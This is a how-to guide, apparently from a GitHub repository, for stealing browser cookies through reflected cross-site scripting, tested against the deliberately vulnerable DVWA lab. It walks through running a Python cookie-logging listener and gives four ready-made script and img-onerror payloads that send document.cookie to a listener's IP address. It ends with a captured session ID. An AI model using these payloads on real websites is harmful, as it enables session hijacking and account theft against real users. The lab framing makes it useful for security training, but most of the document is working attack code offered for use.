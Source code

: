 # Steal Cookies with Reflected XSS

This is a basic Reflected XSS attack to steal cookies from a user of a vulnerable website. The attack string comes from Ch. 12, p. 436 of [The Web Application Hacker's Handbook, 2nd Ed.][3]

This was tested against the [Damn Vulnerable Web Application][5] (DVWA) v1.8. DVWA can be installed alone or as part of the excellent [OWASP Broken Web Applications Project][6] (BWA) v1.2.



### Assumptions:
1. You've already identified website (and field or parameter) that is vulnerable to Reflected XSS.
1. You're able to run shell commands on a Linux system that is reachable by the vulnerable web app. You'll probably need to run the Python script (mentioned below) as root or prepended with `sudo`.

## Run the Cookie Stealer Python Script

You'll need a place to capture the stolen cookies. [lnxg33k][1] has written an excellent Python script called [XSS-cookie-stealer.py][2]. Run it with Python 2.6 or higher. It is just an HTTP server which logs each inbound HTTP connection and all the cookies contained in that connection.

```shell
python XSS-cookie-stealer.py
```

The resulting output, at minimum, will be this:

```shell
Started http server

```

You're not there yet. Now you have to launch the actual attack. Below are a couple of choices.

## Inject the XSS Attack Code
Below are four versions of the same attack.

### 1. `alert()` Before Stealing the Cookie
Run this version of the attack code if you want to see the cookie in a JS `alert()` as confirmation that the injection is successfully exploiting the vulnerability on the target site. Note that the cookie will not upload to your Python listener until the victim closes the JS `alert()` dialog.

```javascript
<script>
alert(document.cookie);
var i=new Image;
i.src="http://192.168.0.18:8888/?"+document.cookie;
</script>
```

### 2. Silent One-Liner
This one is the same but no `alert()` and all on one line.

```js
<script>var i=new Image;i.src="http://192.168.0.18:8888/?"+document.cookie;</script>
```

### 3. `<img>` Tag Instead of `<script>` Tags
Don't use this one! It works but calls `onerror()` in a loop, filling up your stolen cookie log:
```html
<img src=x onerror=this.src='http://192.168.0.18:8888/?'+document.cookie;>
```

### 4. `<img>` Tag and Without the Infinite Loop
This one works and will only steal the cookie once. I adapted it from a posting on the old [kirupa.com][4] forum.
```html
<img src=x onerror="this.src='http://192.168.0.18:8888/?'+document.cookie; this.removeAttribute('onerror');">
```

## Harvest the Stolen Cookies
If you successfully get inject your cookie-stealing XSS script into a vulnerable website, and the script is subsequently executed in a victim's browser, you'll see a cookie appear in the STDOUT of the shell running the Python script:

```shell
2017-02-09 10:05 PM - 192.168.0.254	Mozilla/5.0 (Macintosh; Intel Mac OS X 10.10; rv:51.0) Gecko/20100101 Firefox/51.0
------------------------------------------------------------------------------------------------------------------
Cookie Name			Value
------------------------------------------------------------------------------------------------------------------
acopendivids			['swingset,jotto,phpbb2,redmine']
security			['low']
acgroupswithpersist			['nada']
PHPSESSID			['93l9ahf1120bkp79t5ehbkc0m4']
```


[1]: https://github.com/lnxg33k
[2]: https://github.com/lnxg33k/misc/blob/master/XSS-cookie-stealer.py
[3]: http://www.wiley.com/WileyCDA/WileyTitle/productCd-1118026470.html
[4]: https://www.kirupa.com/forum/showthread.php?377664-onerror-within-the-img-tag
[5]: http://www.dvwa.co.uk/
[6]: http://www.owaspbwa.org/
